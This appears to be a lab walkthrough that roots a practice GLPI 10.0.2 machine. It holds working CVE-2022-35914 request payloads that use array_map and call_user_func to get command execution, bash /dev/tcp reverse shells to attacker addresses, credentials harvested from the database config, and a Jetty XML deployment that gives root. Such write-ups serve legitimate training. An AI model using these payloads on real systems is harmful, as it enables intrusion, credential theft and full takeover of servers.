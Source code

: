 _____

## Summary:

In this guide, we will exploit `CVE-2022-35914` targeting `GLPI 10.0.2`. Once on the box, we will exploit a vulnerable `Jetty` Server in order to obtain root access.

## Enumeration

We begin the enumeration process with an nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV  192.168.56.3
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8b:76:66:d9:bb:fa:dd:89:1c:73:8e:c4:83:d7:99:c9 (RSA)
|   256 41:f0:f7:c2:68:03:08:a3:e6:8a:e5:ab:7e:98:1b:bd (ECDSA)
|_  256 32:57:38:75:9d:27:0a:59:31:21:f4:bc:9f:9c:3a:69 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Authentication - GLPI
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:A5:BA:30 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the results we find that ports `22` and `80` are open.

We visit port `80` with our browser and notice a GLPI authentication form.

Turning to content discovery reveals the following:

- http://192.168.56.3/CHANGELOG.md : this give the information about the version 10.0.2
- http://192.168.56.3/phpinfo.php : this give the information about the disable_function exec

## Exploitation

We find that `GLPI 10.0.2` is vulnerable to [CVE-2022-35914](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/)

However the public exploit will not work on the target as the `exec` function is disabled.

We must find another way to exploit the vulnerability using the callback function

We proceed by executing the following payload :

```
$C['hook']($t, $C, $S)
```

- $t is the user entry : string
- $C the config array : we can add whatever we want on the array
- $S : the spec parameter can be a string or an array

If we use `array_map` as a hook function this will run the callback function : $t, on each $C array value with the $S entry as params.

```
text=<callback>&hhook=array_map&hexec=<my_entry>&sid=bs&spec[0]=&spec[1]=&spec[2]=...
```

With this payload we can use the following :

- hhook=array_map : will launch array_map with the callback function on all the entries of $C.
- text=call_user_func : call_user_func will be used as a callback function on every entries of $C (due to array map).
- we add an entry on the config array with a parameter : hexec=system.
- and next the corresponding config entry will be call with the corresponding spec array value.

As an example we could look at this simplification in PHP console :

```
php > array_map('call_user_func',['XXXX','system','YYYY'],['AAA','echo COMMANDEXEC','BBB','CCC']);
PHP Warning:  call_user_func() expects parameter 1 to be a valid callback, function 'XXXX' not found or invalid function name in php shell code on line 1
PHP Stack trace:
PHP   1. {main}() php shell code:0
PHP   2. array_map() php shell code:1
PHP   3. call_user_func:{php shell code:1}() php shell code:1
COMMANDEXEC
PHP Warning:  call_user_func() expects parameter 1 to be a valid callback, function 'YYYY' not found or invalid function name in php shell code on line 1
PHP Stack trace:
PHP   1. {main}() php shell code:0
PHP   2. array_map() php shell code:1
PHP   3. call_user_func:{php shell code:1}() php shell code:1
PHP Warning:  call_user_func() expects parameter 1 to be a valid callback, no array or string given in php shell code on line 1
PHP Stack trace:
PHP   1. {main}() php shell code:0
PHP   2. array_map() php shell code:1
PHP   3. call_user_func:{php shell code:1}() php shell code:1
```

From the output we see that when the `array_map` matches `call_user_func('system','echo COMMANDEXEC')` we are able to proceed.

We'll proceed by crafting the following request.

```
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 192.168.56.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
Connection: close
Cookie: sid=bs

text=call_user_func&hhook=array_map&hexec=system&sid=bs&spec[0]=&spec[1]=id
```

Now that we have confirmed RCE we can proceed to setup a listener on our attack machine.

```
# sudo nc -nlvp 80
```

Now we launch the exploit :

```
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 192.168.56.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 127
Connection: close
Cookie: sid=bs

text=call_user_func&hhook=array_map&hexec=system&sid=bs&spec[0]=&spec[1]=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.56.1/80+0>%261'
```

We have received a response as www-data:

```
Listening on [0.0.0.0] (family 0, port 80)
Connection from 192.168.56.3 54760 received!
bash: cannot set terminal process group (14789): Inappropriate ioctl for device
bash: no job control in this shell
www-data@glpi:/var/www/glpi/vendor/htmlawed/htmlawed$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

During our enumeration we discover the user `betty` but we cannot access `/home/betty/local.txt` as the `www-data` user.

The file `/var/www/glpi/config/config_db.php` returns information about the database connection.

```
<ed/htmlawed$ cat /var/www/glpi/config/config_db.php      
<?php
class DB extends DBmysql {
   public $dbhost = 'localhost';
   public $dbuser = 'glpi';
   public $dbpassword = 'glpi_db_password';
   public $dbdefault = 'glpi';
   public $use_utf8mb4 = true;
   public $allow_myisam = false;
   public $allow_datetime = false;
   public $allow_signed_keys = false;
}
```

Analyzing the GLPI database reveals the password for the `betty` user in the table : `glpi_itilfollowups`.

![glpi_ticket.png](https://portal.offsec.com/img/glpi_ticket.png)

glpi_ticket.png

We can also change the password of one of the users to directly visualize the ticket information in GLPI : `SnowboardSkateboardRoller234`.

We can now login via SSH with the credentials `betty:SnowboardSkateboardRoller234`.

```
ssh betty@192.168.56.3
betty@192.168.56.3's password:
...
betty@glpi:~$
```

During our enumeration we notice a running service on port `8080`.

The `ps faux` command reveals a jetty server running :

```
root       17345  0.3  3.8 2545364 78832 ?       Sl   12:28   0:21 /usr/bin/java -Djava.io.tmpdir=/tmp -Djetty.home=/opt/jetty -Djetty.base=/opt/jetty/jetty-base --class-path /opt/jetty/jetty-base/resources:/opt/jetty/lib/logging/slf4j-api-2.0.0.jar:/opt/jetty/lib/logging
be
```

We navigate to the Jetty folder and discover a webapps folder a writable by betty :

```
betty@glpi:/opt/jetty/jetty-base$ ll
total 24
drwxr-xr-x 5 root  root  4096 Oct  9 12:28 ./
drwxr-xr-x 7 root  root  4096 Oct  9 12:28 ../
-rw-r--r-- 1 root  root   102 Oct  9 12:28 jetty.state
drwxr-xr-x 2 root  root  4096 Oct  9 12:28 resources/
drwxr-xr-x 2 root  root  4096 Oct  9 12:28 start.d/
drwxr-xr-x 2 betty betty 4096 Oct  9 12:28 webapps/
```

We can attempt to obtain a reverse shell with the following technique : https://twitter.com/ptswarm/status/1555184661751648256/photo/1

We begin by creating a reverse shell script to run:

```
echo "bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'" > /tmp/run.sh
chmod +x /tmp/run.sh
```

Now we create the following exploit and setup a listener.

```
cat << EOF > /opt/jetty/jetty-base/webapps/run.xml
<?xml version="1.0"?>
<!DOCTYPE Configure PUBLIC "-//Jetty//Configure//EN" "https://www.eclipse.org/jetty/configure_10_0.dtd">
<Configure class="org.eclipse.jetty.server.handler.ContextHandler">
    <Call class="java.lang.Runtime" name="getRuntime">
        <Call name="exec">
            <Arg>
                <Array type="String">
                    <Item>/tmp/run.sh</Item>
                </Array>
            </Arg>
        </Call>
    </Call>
</Configure>
EOF
nc -nlvp 4444
```

We receive a response in our listener and have successfully obtained root access.

```
Listening on 0.0.0.0 4444
Connection received on 127.0.0.1 41808
bash: cannot set terminal process group (17344): Inappropriate ioctl for device
bash: no job control in this shell
root@glpi:/opt/jetty/jetty-base# id
uid=0(root) gid=0(root) groups=0(root)
```